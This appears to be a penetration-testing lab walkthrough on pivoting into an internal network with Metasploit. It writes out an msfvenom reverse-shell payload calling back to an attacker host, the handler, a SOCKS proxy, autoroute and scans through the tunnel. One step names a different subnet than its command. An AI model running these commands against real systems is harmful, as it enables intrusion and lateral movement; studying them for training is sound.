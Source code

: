 1.  By using the `ifconfig` command, we observe that there is another network interface, ens192, which is part of a network that our current machine does not have direct access to.  
    
    ![](../../../img/Linux-Environment/24.png)
    
2.  To gain access to the `ens192` network, we can set up pivoting using Metasploit. The first step is to generate a reverse shell in ELF format using msfvenom.  
    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.219 LPORT=1337 -f elf > hackfast.elf`  
    
    ![](../../../img/Linux-Environment/25.png)
    
3.  Transfer the generated ELF file to the target machine (Check the File Transfer section for more information).  
    
    ![](../../../img/Linux-Environment/26.png)
    
4.  Start a Metasploit multi/handler to receive the reverse shell.  
    `msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set lhost 10.10.14.219; set lport 1337; exploit"`  
    
    ![](../../../img/Linux-Environment/27.png)
    
5.  After transferring the ELF file, give it execution permissions and run it on the target machine.  
    `chmod +x hackfast.elf && ./hackfast.elf`  
    
    ![](../../../img/Linux-Environment/28.png)
    
6.  With a Meterpreter shell established, we can now set up a SOCKS proxy server through Metasploit to tunnel our traffic. Use the following commands:
    
    ```
    use auxiliary/server/socks_proxy
    set SRVPORT 9050
    set SRVHOST 0.0.0.0
    set version 4a
    run
    jobs    //Confirming Proxy Server is Running
    ```
    
    ![](../../../img/Linux-Environment/29.png)
    
7.  After starting the SOCKS server, configure ProxyChains to route traffic through our newly established pivot. Add the following line to the end of the proxychains.conf file, typically located at /etc/proxychains.conf:  
    `socks4 127.0.0.1 9050`  
    
    ![](../../../img/Linux-Environment/30.png)
    
8.  Finally, use the post/multi/manage/autoroute module in Metasploit to route traffic for the 172.16.5.0 subnet through the Meterpreter session. This allows tools like Nmap to scan the target network through the proxy.
    
    ```
    use post/multi/manage/autoroute
    set SESSION 1
    set subnet 172.16.8.0
    run
    ```
    
    ![](../../../img/Linux-Environment/31.png)
    
9.  To discover active hosts within the 172.16.8.0/23 subnet, we can use the ping_sweep module:
    
    ```
    use post/multi/gather/ping_sweep
    set rhosts 172.16.8.0/23
    set SESSION 1
    run
    ```
    
    ![](../../../img/Linux-Environment/32.png)
    
10. With everything set up, you can now use Nmap (or other tools) to scan through the pivoting:  
    `proxychains nmap -sT -p22 [IP-ADRESS]`  
    
    ![](../../../img/Linux-Environment/33.png)